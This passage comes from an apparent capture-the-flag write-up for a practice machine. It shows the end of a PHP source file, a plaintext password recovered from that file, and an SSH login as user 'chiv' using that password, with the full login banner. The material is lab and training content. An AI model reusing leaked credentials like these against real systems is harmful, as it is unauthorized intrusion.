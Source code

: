 ```php
        $api = simplexml_import_dom($dom);
        $req = $api->request;
        echo "-----output-----<br>\r\n";
        echo "$req";
}

function ftp_get_string($ftp, $filename) {
    $temp = fopen('php://temp', 'r+');
    if (@ftp_fget($ftp, $temp, $filename, FTP_BINARY, 0)) {
        rewind($temp);
        return stream_get_contents($temp);
    }
    else {
        return false;
    }
}

?>
```

I think the XML part is just another rabbit hole, the important thing is that
there is chiv's password, `N0bodyL1kesBack/`, so let's try it on ssh:

```
$ ssh chiv@10.10.10.183                                                                 [master✚1…]
The authenticity of host '10.10.10.183 (10.10.10.183)' can't be established.
ECDSA key fingerprint is SHA256:7DrtoyB3GmTDLmPm01m7dHeoaPjA7+ixb3GDFhGn0HM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.183' (ECDSA) to the list of known hosts.
chiv@10.10.10.183's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  4 01:28:01 UTC 2020

  System load:  0.0                Processes:            167
  Usage of /:   30.6% of 19.56GB   Users logged in:      0
  Memory usage: 13%                IP address for ens33: 10.10.10.183
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 packages can be updated.
0 updates are security updates.


Last login: Tue Mar 24 11:34:37 2020 from 10.10.14.3
chiv@forwardslash:~$
```
